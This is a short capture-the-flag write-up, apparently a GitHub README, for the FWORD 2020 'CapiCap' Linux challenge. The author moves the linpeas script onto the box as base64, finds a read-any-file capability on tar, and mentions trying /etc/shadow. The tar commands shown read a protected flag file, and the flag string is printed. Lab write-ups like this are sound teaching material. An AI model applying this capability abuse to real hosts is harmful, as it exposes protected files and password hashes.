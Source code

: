 # fword-ctf-writeups
Writeup for FWORD 2020 CTF


---
CapiCap
---
This challenge was quit nice, i actually spent a great deal of time just to put linpeas on the box, i ended up converting the linpeas script to base64, then copied and pasted it in the machine using echo (there's probably a better way to do this, but i was too lazy to think of anything else)
so at my attack machine:<br>
`cat linpeas.sh | base64 > linpeas.b64`<br>
copy the result<br>
on target host:<br>
`echo "base64 string" > linenum.b64`<br>
`cat linpeas.b64 | base64 -d > linpeas.sh`<br>
<br>
at first time i missed it, so it took me quit some time,<br>
actually the name of the challenge gives us a hint.<br>
running the following:<br>
`getcap -r / 2>/dev/null`<br>
<br>
gives us:<br>
`/usr/bin/tar = cap_dac_read_search+ep`<br>
<br>
this caught my attention as i do not normally see this.<br>
after doing some research, i found out that this actually gives tar premission to read any file!<br>
<br>
so i initially tried to read /etc/shadow and crack the hast- that got me nowhere.<br>
it took me a minute to realize i just need the flag.txt file!<br>
so doing this:<br>
`cd /tmp` #so we will be somewhere with write premissions<br>
`tar -cvf flag.tar ~/flag.txt` # read the flag file from the home directory, and store it in flag.tar<br>
`tar -xvf flag.tar` # extract the flag file<br>
now we can:<br>
`cat /tmp/home/user1/flag.txt`<br>
`FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}`<br>
and we got the flag!<br>


